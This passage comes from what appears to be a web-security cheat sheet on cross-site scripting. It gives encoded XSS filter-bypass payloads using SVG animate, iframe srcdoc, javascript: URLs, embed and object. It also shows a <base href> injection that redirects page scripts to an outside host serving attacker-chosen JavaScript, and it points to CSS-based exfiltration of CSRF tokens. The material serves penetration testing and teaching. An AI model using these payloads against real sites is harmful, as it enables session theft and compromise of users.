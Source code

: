 <pre class="language-html" data-overflow="wrap"><code class="lang-html">&#x3C;!-- Dynamically set href= attribute using SVG animation, with "javascript:" partially in attribute value -->
<strong>&#x3C;svg>&#x3C;a>&#x3C;animate attributeName=href dur=5s repeatCount=indefinite keytimes=0;0;1 values="https://example.com?&#x26;semi;javascript:alert(origin)&#x26;semi;0" />&#x3C;text x=20 y=20>XSS&#x3C;/text>&#x3C;/a>
</strong>
&#x3C;!-- Using iframe srcdoc= attribute to include encoded HTML -->
<strong>&#x3C;iframe srcdoc="&#x26;lt;img src=1 o&#x26;#110;error=alert(1)&#x26;gt;">&#x3C;/iframe>
</strong>
&#x3C;!-- Link requiring user interaction with javascript: URL -->
<strong>&#x3C;a href="&#x26;#106aVaS&#x26;#99riPt:alert()">Click me!&#x3C;/a>
</strong>
&#x3C;!-- Using lesser-known src= and data= attributes, also with codebase= -->
<strong>&#x3C;iframe src="javascript:alert(origin)">&#x3C;/embed>
</strong><strong>&#x3C;embed src="javascript:alert(origin)">&#x3C;/embed>
</strong><strong>&#x3C;object data="javascript:alert(origin)">&#x3C;/object>
</strong></code></pre>

One last payload is a less well-known tag called `<base>` which takes an `href=` attribute that will decide where any **relative URLs will start** from. If you set this to your domain for example, and later in the document a `<script src="/some/file.js">` is loaded, it will instead be loaded from **your website** at the path of the script.

<pre class="language-html"><code class="lang-html"><strong>&#x3C;base href=//xss.jorianwoltjer.com>
</strong>
&#x3C;!-- Any normal relative script after this payload will be taken from the base -->
&#x3C;script src="/some/file.js">
&#x3C;!-- ^^ Will fetch 'http://xss.jorianwoltjer.com/some/file.js' instead! -->
</code></pre>

{% hint style="info" %}
To exploit and show a proof of concept of the above trick, I set up [xss.jorianwoltjer.com](https://xss.jorianwoltjer.com/) which  returns the same script for **every path** with any payload you put into that **URL hash**. This means you can include this injection anywhere, and put a JavaScript payload after the `#` symbol of the target URL which will then be executed:\
[http://example.com/path#alert(document.domain)](http://example.com/path#alert\(document.domain\))
{% endhint %}

See [#filter-bypasses](./#filter-bypasses "mention") for a more general approach for making your own bypass.

In case you really can't get a full-blown XSS, check out what other impactful things you may be able to do with [#html-injection](./#html-injection "mention").

#### Alternative Impact

**Styles** using CSS can also be dangerous. Not only to restyle the page, but with selectors and URLs any secrets on the page like CSRF tokens or other private data can be exfiltrated. For details on exploiting this, see [this introduction](https://infosecwriteups.com/exfiltration-via-css-injection-4e999f63097d), an [improved version using `@import`](https://d0nut.medium.com/better-exfiltration-via-html-injection-31c72a2dae8b), and finally [this tool](https://github.com/d0nutptr/sic).&#x20;

### Attribute Injection
